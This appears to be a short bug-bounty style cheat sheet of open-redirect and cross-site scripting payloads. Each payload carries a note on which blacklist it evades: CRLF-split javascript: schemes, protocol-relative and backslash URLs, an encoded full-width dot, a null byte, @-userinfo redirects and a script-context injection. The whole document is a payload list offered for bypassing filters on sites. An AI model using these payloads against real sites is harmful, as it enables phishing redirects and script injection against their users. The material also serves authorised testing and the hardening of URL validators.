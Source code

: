 Methods for bypassing filters


Every case is different with open url redirects but here are some payloads I use for getting a successful redirect / xss

 - java%0d%0ascript%0d%0a:alert(0)
(crlf injection to bypass javascript: being blacklisted) 

 - //google.com
(incase http:// is blacklisted)

 - https:google.com
(browsers accept this, good if // is blacklisted!)

 - //google%E3%80%82com
(%E3%80%82 is 。 encoded. A HUGE thanks to filedescriptor for showing me that) 

 - \/\/google.com/
(useful for bypassing // http:// blacklists. Browsers see \/\/ as //) 

 - /\/google.com/
(same as above) 

 - //google%00.com
(null byte to bypasses blacklist filter. can be used anywhere) 

 - http://www.theirsite.com@yoursite.com/
(oldie, but browsers will redirect to anything after @)

 - http://www.yoursite.com/http://www.theirsite.com/
(if @ is blacklisted and they check if their domain is in the param, make a folder as their domain :D)

 - ";alert(0);//
(example from above. if the url is echo'd in a variable and we want to get xss in script tag)

..and there we have it.

Special Thank : @zseano
